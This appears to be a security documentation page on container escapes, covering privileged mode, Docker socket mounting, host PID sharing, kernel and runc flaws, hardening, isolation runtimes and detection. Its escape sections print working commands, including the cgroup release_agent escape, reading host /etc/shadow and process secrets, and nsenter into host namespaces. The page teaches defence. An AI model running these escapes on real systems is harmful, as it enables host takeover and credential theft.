




# Container Escape Techniques

Containers provide **process isolation**, not **security isolation**. They use Linux kernel features (namespaces, cgroups, capabilities) to create the illusion of a separate system, but they all share the same kernel. A container escape occurs when an attacker inside a container breaks out to the host system or to other containers, gaining access they should not have.

Understanding container escape techniques is essential for anyone deploying containers in production, because the default configuration of Docker and Kubernetes is **not secure** against a determined attacker.

**Related**: [Dirty Pipe & Kernel Exploits](/security/exploits/dirty-pipe) | [Cloud Misconfigurations](/security/exploits/cloud-misconfigs) | [Security Overview](/security/)

---

## The Container Isolation Model



### What Containers Actually Isolate

| Resource | Isolated? | Mechanism | Escape Risk |
|----------|-----------|-----------|-------------|
| **Filesystem** | Partially | Mount namespaces, overlay fs | Volume mounts can expose host paths |
| **Process tree** | Yes | PID namespaces | `--pid=host` disables it |
| **Network** | Yes | Network namespaces | `--network=host` disables it |
| **Users** | Partially | User namespaces (if enabled) | Root in container = root on host (by default) |
| **Kernel** | No | Shared kernel | Any kernel exploit = host compromise |
| **Hardware** | No | Direct device access possible | `--privileged` exposes everything |

---

## Escape 1: Privileged Mode

Running a container with `--privileged` disables almost all security features. The container process has full access to the host's devices, filesystems, and kernel interfaces.

```bash
# DON'T: Running a privileged container
docker run --privileged -it ubuntu bash     # [!code error]
```

### The Escape

```bash
# Inside a privileged container — escape to host filesystem

# Method 1: Mount the host filesystem
mkdir /mnt/host
mount /dev/sda1 /mnt/host           # [!code error]
# Now /mnt/host contains the entire host filesystem
cat /mnt/host/etc/shadow             # Read host passwords
chroot /mnt/host                     # Full host access

# Method 2: Load a kernel module
insmod /path/to/malicious.ko         # [!code error]
# The module runs in the host kernel — game over

# Method 3: Write to host cgroup release_agent
# (Classic cgroup v1 escape technique)
d=$(dirname $(ls -x /s*/fs/c*/*/r* | head -n1))
mkdir -p $d/escape
echo 1 > $d/escape/notify_on_release
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
echo "$host_path/cmd" > $d/release_agent
echo '#!/bin/sh' > /cmd
echo "cat /etc/shadow > $host_path/output" >> /cmd  # [!code error]
chmod a+x /cmd
sh -c "echo \$\$" > $d/escape/cgroup.procs
# /output now contains the host's /etc/shadow
```

::: danger Never Use --privileged in Production
`--privileged` gives the container full root capabilities on the host. There is no isolation. Common cases where teams think they need `--privileged`:
- **Docker-in-Docker**: Use rootless Docker or kaniko instead
- **Accessing devices**: Use `--device=/dev/specific-device` instead
- **Network tools**: Add specific capabilities with `--cap-add=NET_ADMIN`
- **Debugging**: Use ephemeral debug containers, never privileged
:::

---

## Escape 2: Docker Socket Mounting

Mounting the Docker socket (`/var/run/docker.sock`) into a container gives that container full control of the Docker daemon — which is equivalent to root access on the host.

```yaml
# DON'T: Common in CI/CD pipelines
services:
  ci-runner:
    image: gitlab-runner
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock   # [!code error]
```

### The Escape

```bash
# Inside a container with Docker socket mounted

# List all containers on the host
docker ps

# Start a new privileged container with host filesystem mounted
docker run -it --privileged --pid=host \
  -v /:/host ubuntu chroot /host bash     # [!code error]

# You now have root access to the host
id   # uid=0(root) gid=0(root)
```



::: tip Alternatives to Docker Socket Mounting
| Need | Insecure Approach | Secure Alternative |
|------|-------------------|-------------------|
| Build images in CI | Mount docker.sock | Use kaniko, buildah, or buildkit (rootless) |
| Monitor containers | Mount docker.sock | Use Docker API over TLS with client certs |
| Container management | Mount docker.sock | Use Kubernetes API with RBAC |
| Docker-in-Docker | Mount docker.sock | Use rootless Docker, sysbox, or Podman |
:::

---

## Escape 3: Host PID Namespace

When a container shares the host's PID namespace (`--pid=host`), processes inside the container can see and interact with all processes on the host.

```bash
# DON'T: Sharing host PID namespace
docker run --pid=host -it ubuntu bash      # [!code error]

# Inside the container:
# See all host processes
ps aux

# Read environment variables of host processes (may contain secrets)
cat /proc/1/environ | tr '\0' '\n'         # [!code error]
# DB_PASSWORD=s3cr3t
# AWS_SECRET_ACCESS_KEY=AKIA...

# Attach to host processes
nsenter -t 1 -m -u -i -n -p -- /bin/bash  # [!code error]
# Full host shell via PID 1's namespaces
```

---

## Escape 4: Kernel Exploits from Within Containers

Since containers share the host kernel, any kernel vulnerability exploitable from user space can be used to escape the container. This is the hardest escape to prevent because it does not require any misconfiguration.



Notable kernel exploits used for container escapes:

| CVE | Name | Year | Technique |
|-----|------|------|-----------|
| CVE-2022-0847 | [Dirty Pipe](/security/exploits/dirty-pipe) | 2022 | Overwrite host files via pipe splice |
| CVE-2016-5195 | Dirty COW | 2016 | Race condition in COW pages |
| CVE-2022-0185 | - | 2022 | Heap overflow in legacy_parse_param |
| CVE-2021-31440 | - | 2021 | eBPF verifier bypass |
| CVE-2022-23222 | - | 2022 | eBPF type confusion |

---

## Escape 5: runc Vulnerabilities (CVE-2019-5736)

runc is the low-level container runtime used by Docker, containerd, and CRI-O. CVE-2019-5736 allowed a malicious container to **overwrite the host's runc binary**, which is executed as root whenever a new container is started.

### How It Worked



::: warning The Supply Chain Angle
CVE-2019-5736 is particularly dangerous in CI/CD environments where untrusted container images are built or tested. A malicious Dockerfile could create an image that exploits this vulnerability when any administrator runs `docker exec` on it.
:::

---

## Defense: Hardening Container Deployments

### 1. Drop Capabilities

```bash
# Drop ALL capabilities, add back only what is needed
docker run \
  --cap-drop=ALL \                     # [!code highlight]
  --cap-add=NET_BIND_SERVICE \         # Only if binding to ports < 1024
  --security-opt=no-new-privileges \   # Prevent privilege escalation
  myapp:latest
```

### 2. Read-Only Root Filesystem

```bash
docker run \
  --read-only \                        # [!code highlight]
  --tmpfs /tmp:rw,noexec,nosuid \      # Writable /tmp without exec
  --tmpfs /var/run:rw,noexec,nosuid \
  myapp:latest
```

### 3. seccomp Profiles

```json
{
  "defaultAction": "SCMP_ACT_ERRNO",
  "architectures": ["SCMP_ARCH_X86_64"],
  "syscalls": [
    {
      "names": [
        "read", "write", "open", "close", "stat", "fstat",
        "mmap", "mprotect", "munmap", "brk", "exit_group",
        "futex", "epoll_wait", "accept", "socket", "bind",
        "listen", "connect", "sendto", "recvfrom"
      ],
      "action": "SCMP_ACT_ALLOW"
    }
  ]
}
```

```bash
docker run \
  --security-opt seccomp=custom-profile.json \
  myapp:latest
```

### 4. AppArmor / SELinux

```bash
# AppArmor (Debian/Ubuntu)
docker run --security-opt apparmor=docker-custom myapp:latest

# SELinux (RHEL/CentOS/Fedora)
docker run --security-opt label=type:container_strict_t myapp:latest
```

### 5. User Namespace Remapping

```json
// /etc/docker/daemon.json
{
  "userns-remap": "default"
}
```

This maps root (UID 0) inside the container to an unprivileged user on the host. Even if an attacker escapes the container as "root," they are an unprivileged user on the host.

---

## Stronger Isolation Runtimes

When containers are not enough, use runtimes that provide VM-level or kernel-level isolation:

```mermaid
graph TB
    subgraph Standard["Standard Container (runc)"]
        SC[Container Process] --> SK[Shared Host Kernel]
    end

    subgraph GVisor["gVisor (runsc)"]
        GC[Container Process] --> GK[gVisor User-space Kernel<br/>Sentry]
        GK --> HK1[Host Kernel<br/>Limited syscalls]
    end

    subgraph Kata["Kata Containers"]
        KC[Container Process] --> VK[Guest Kernel<br/>in lightweight VM]
        VK --> HV[Hypervisor<br/>QEMU/Cloud Hypervisor]
        HV --> HK2[Host Kernel]
    end

    subgraph FC["Firecracker microVM"]
        FP[Container Process] --> FK[Guest Kernel<br/>in microVM]
        FK --> FH[Firecracker VMM<br/>Minimal attack surface]
        FH --> HK3[Host Kernel]
    end

    style Standard fill:#dc2626,color:#fff
    style GVisor fill:#d97706,color:#fff
    style Kata fill:#16a34a,color:#fff
    style FC fill:#16a34a,color:#fff
```



| Runtime | Isolation Level | Performance Overhead | Use Case |
|---------|----------------|---------------------|----------|
| **runc** (default) | Namespaces/cgroups | Minimal | Trusted workloads |
| **gVisor** | User-space kernel | 5-30% | Untrusted code, FaaS |
| **Kata Containers** | Lightweight VM | 10-20% | Multi-tenant, compliance |
| **Firecracker** | microVM | 5-15% | AWS Lambda, serverless |

::: tip Choosing the Right Isolation
- **Trusted code, single tenant**: Standard containers with hardening (seccomp, AppArmor, no-new-privileges)
- **Untrusted code**: gVisor or Firecracker — do not rely on kernel namespace isolation
- **Compliance requirements**: Kata Containers provide VM-level isolation that auditors understand
- **Multi-tenant platforms**: Firecracker microVMs (used by AWS Lambda and Fly.io)
:::

---

## Kubernetes-Specific Risks

### Pod Security Standards

```yaml
# PodSecurity admission controller — enforce restricted profile
apiVersion: v1
kind: Namespace
metadata:
  name: production
  labels:
    pod-security.kubernetes.io/enforce: restricted      # [!code highlight]
    pod-security.kubernetes.io/enforce-version: latest
    pod-security.kubernetes.io/warn: restricted
    pod-security.kubernetes.io/audit: restricted
```

### Dangerous Kubernetes Configurations

```yaml
# DON'T: These configurations enable container escape

# Privileged pod
spec:
  containers:
    - name: app
      securityContext:
        privileged: true              # [!code error]

# Host PID namespace
spec:
  hostPID: true                       # [!code error]

# Host network namespace
spec:
  hostNetwork: true                   # [!code error]

# Host path volume mount
spec:
  volumes:
    - name: host-root
      hostPath:
        path: /                       # [!code error]

# Docker socket mount
spec:
  volumes:
    - name: docker-sock
      hostPath:
        path: /var/run/docker.sock    # [!code error]
```

### Secure Pod Configuration

```yaml
# DO: Hardened pod security context
apiVersion: v1
kind: Pod
metadata:
  name: secure-app
spec:
  securityContext:
    runAsNonRoot: true                           # [!code highlight]
    runAsUser: 10000                              # [!code highlight]
    fsGroup: 10000
    seccompProfile:
      type: RuntimeDefault                       # [!code highlight]
  containers:
    - name: app
      image: myapp:v1.2.3@sha256:abc123...       # Pin by digest
      securityContext:
        allowPrivilegeEscalation: false          # [!code highlight]
        readOnlyRootFilesystem: true             # [!code highlight]
        capabilities:
          drop: ["ALL"]                          # [!code highlight]
      resources:
        limits:
          cpu: "500m"
          memory: "256Mi"
```

---

## Detection

```bash
# Detect containers running as privileged
docker ps -q | xargs docker inspect --format \
  '{{​.Name}}: Privileged={{​.HostConfig.Privileged}}' | grep true

# Detect containers with docker.sock mounted
docker ps -q | xargs docker inspect --format \
  '{{​.Name}}: {{​range .Mounts}}{{​.Source}} {{​end}}' | grep docker.sock

# Detect containers with host PID namespace
docker ps -q | xargs docker inspect --format \
  '{{​.Name}}: PidMode={{​.HostConfig.PidMode}}' | grep host

# Kubernetes: find privileged pods
kubectl get pods -A -o json | jq -r \
  '.items[] | select(.spec.containers[].securityContext.privileged==true) |
   "\(.metadata.namespace)/\(.metadata.name)"'
```

---

## Key Takeaways

| Lesson | Implication |
|--------|------------|
| Containers are not security boundaries | They provide isolation, not containment — the shared kernel is the weak link |
| Default configurations are insecure | Docker and Kubernetes defaults prioritize ease-of-use over security |
| Privileged mode = no containment | `--privileged` removes all container security features |
| Docker socket = root access | Mounting docker.sock is equivalent to giving the container root on the host |
| Kernel exploits bypass everything | No amount of container hardening helps if the kernel has a vulnerability |
| Stronger runtimes exist | gVisor, Kata, Firecracker provide actual security isolation when needed |

---

## Further Reading

- [Dirty Pipe & Linux Kernel Exploits](/security/exploits/dirty-pipe) — kernel vulnerabilities that enable container escapes
- [Cloud Misconfigurations](/security/exploits/cloud-misconfigs) — Kubernetes dashboard exposure and other infrastructure risks
- [Supply Chain Security](/security/supply-chain/) — container image signing and verification
- [Exploits Overview](/security/exploits/) — taxonomy and context for all exploit case studies
